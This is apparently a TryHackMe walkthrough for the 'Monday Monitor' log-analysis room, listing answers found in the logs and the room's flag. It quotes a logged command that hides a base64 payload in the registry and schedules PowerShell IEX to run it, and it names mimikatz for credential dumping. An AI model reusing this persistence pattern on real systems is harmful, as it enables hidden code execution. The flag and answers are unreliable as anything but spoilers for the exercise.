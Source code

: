 # [Monday Monitor](https://tryhackme.com/room/mondaymonitor)

## Walkthrough

## Task 1

**Initial access was established using a downloaded file. What is the file name saved on the host?**
```shell
SwiftSpend_Financial_Expenses.xlsm
```
**What is the full command run to create a scheduled task?**
```shell
Scheduler | data.win.eventdata.parentCommandLine

\"cmd.exe\" /c \"reg add HKCU\\SOFTWARE\\ATOMIC-T1053.005 /v test /t REG_SZ /d cGluZyB3d3cueW91YXJldnVsbmVyYWJsZS50aG0= /f &amp; schtasks.exe /Create /F /TN \"ATOMIC-T1053.005\" /TR \"cmd /c start /min \\\"\\\" powershell.exe -Command IEX([System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String((Get-ItemProperty -Path HKCU:\\\\SOFTWARE\\\\ATOMIC-T1053.005).test)))\" /sc daily /st 12:34\"
```
**What time is the scheduled task meant to run?**
```shell
12:34
```
**What was encoded?**
```shell
cGluZyB3d3cueW91YXJldnVsbmVyYWJsZS50aG0=

ping www.youarevulnerable.thm
```
**What password was set for the new user account?**
```shell
I_AM_M0NIT0R1NG
```
**What is the name of the .exe that was used to dump credentials?**
```shell
"mimikatz"

memotech.exe
```
**Data was exfiltrated from the host. What was the flag that was part of the data?**
```shell
THM{M0N1T0R_1$_1N_3FF3CT}
```

